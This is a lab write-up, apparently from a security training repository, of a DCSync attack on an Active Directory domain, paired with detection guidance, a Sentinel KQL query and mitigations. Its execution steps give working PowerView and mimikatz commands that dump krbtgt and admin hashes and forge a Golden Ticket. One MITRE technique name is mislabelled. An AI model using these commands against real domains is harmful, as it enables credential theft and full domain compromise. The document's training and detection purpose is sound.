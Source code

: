 # Attack Scenario: DC Sync Attack (DCSync)
The DC Sync attack simulates a rogue Domain Controller by abusing Directory Replication permissions. An attacker with sufficient rights can extract password hashes for any user — including krbtgt — from Active Directory, enabling Golden Ticket forgery and full domain compromise.

## MITRE ATT&CK Techniques:
- T1003.006 – LSASS Memory: DCSync
- T1003.003 – NTDS.dit Extraction
- T1558.001 – Golden Ticket

## Lab Environment
- **Domain Controller:** dc01.internal.lab
- **Attacker-controlled system:** attacker-vm
- **Privileged account (compromised):** svc-repl with Replicating Directory Changes permissions
- **Target account:** krbtgt, admin.internal.lab

Preconditions:

- svc-repl has Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Secrets rights on the domain root

## Objectives
- Enumerate accounts with replication rights
- Use svc-repl credentials to perform DCSync
- Extract password hashes for high-value targets
- Optionally forge a Golden Ticket using krbtgt hash

## Execution Steps
### 1. Discover Accounts with Replication Rights
Use PowerView:

```Get-ObjectAcl -SamAccountName "internal.lab" -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "Replicating" }```

Look for accounts with:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Secrets

### 2. Perform the DCSync
Use mimikatz on attacker host:

```lsadump::dcsync /domain:internal.lab /user:krbtgt```

Can also target specific users:

```lsadump::dcsync /domain:internal.lab /user:admin.internal.lab```
### 3. (Optional) Golden Ticket Attack
Use mimikatz to forge:

```kerberos::golden /user:Administrator /domain:internal.lab /sid:S-1-5-21-xxxxxx /krbtgt:<NTLM HASH> /ptt```

Confirm elevated access:

```dir \\dc01.internal.lab\C$```

## Detection Guidance
Logs and Sources
Event ID 4662 with DS-Replication-Get-Changes, Get-Changes-All, Get-Changes-Secrets

Defender for Identity Alert: "Replication of directory services detected from non-DC host"

Mimikatz strings in memory or command line: 
```lsadump::dcsync```

KQL Example – Microsoft Sentinel
```
SecurityEvent
| where EventID == 4662
| where ObjectType in (
    "DS-Replication-Get-Changes", 
    "DS-Replication-Get-Changes-All", 
    "DS-Replication-Get-Changes-Secrets"
)
| summarize count() by Account, Computer, bin(TimeGenerated, 1h)
| where count_ > 5
```
## Mitigations
- Limit accounts with replication rights (use dedicated gMSA for backups)
- Use tiered administration; avoid dual-purpose accounts
- Monitor 4662 and abnormal LDAP behavior from non-DC hosts
- Alert on usage of lsadump::dcsync, replication APIs, or unusual NTLM requests

## References
- https://adsecurity.org/?p=1729
- https://github.com/gentilkiwi/mimikatz
- https://attack.mitre.org/techniques/T1003/006/

## Navigation
← [Back to Lab Index](../README.md)
→ [Related: Golden Ticket](./kerberos/golden-ticket.md)

